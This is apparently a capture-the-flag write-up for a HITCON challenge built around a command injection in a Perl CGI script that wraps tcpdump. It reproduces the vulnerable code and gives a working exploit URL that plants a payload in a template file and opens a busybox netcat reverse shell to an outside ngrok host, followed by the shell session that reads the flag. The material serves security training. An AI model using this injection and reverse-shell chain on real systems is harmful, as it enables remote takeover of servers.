 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Virtual Public Network [500pts]
Vulnerable Point of Your Network :)
http://13.231.137.9
```

# Hint
```html
<!-- Hint for you :)
<a href='diag.cgi'>diag.cgi</a>
<a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

# diag.cgi
```perl
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
# Command Injection
```perl
return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
```
# Post on Author's blog
[http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html](http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)

# Timeline
- Setup Docker container (apache)
- Read author's blog :p
- Discover absolute path of `./tmp/` template dir: `/usr/lib/cgi-bin/tmp/` (thanks to Docker)
- Execute `ls /`, reverse tcp using busybox: `/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh`
- Read flag: `cd / && ./\$READ_FLAG\$`

# Final works
`http://13.231.137.9/cgi-bin/diag.cgi?options=-r$x="/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh",system$x%23 2>/usr/lib/cgi-bin/tmp/vinhjaxt.thtml <&tpl=vinhjaxt`
```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34036
whoami
www-data
cd /
ls
$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
...

./\$READ_FLAG\$
hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}

```
Please read author's post for more informations.
